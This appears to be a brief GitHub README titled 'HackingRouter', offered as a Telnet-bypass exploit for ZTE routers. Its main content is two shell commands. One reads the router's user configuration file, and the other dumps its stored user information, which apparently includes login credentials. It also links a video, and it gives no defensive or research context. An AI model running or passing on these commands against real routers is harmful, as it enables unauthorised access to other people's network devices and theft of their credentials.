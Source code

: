 # HackingRouter
ZTE Router Exploit  [Telnet ByPass]

Commands:
# cat /userconfig/cfg/db_user_cfg.xml
# sendcmd 1 DB p UserInfo

Video: https://youtu.be/QYKyM-CCw4s
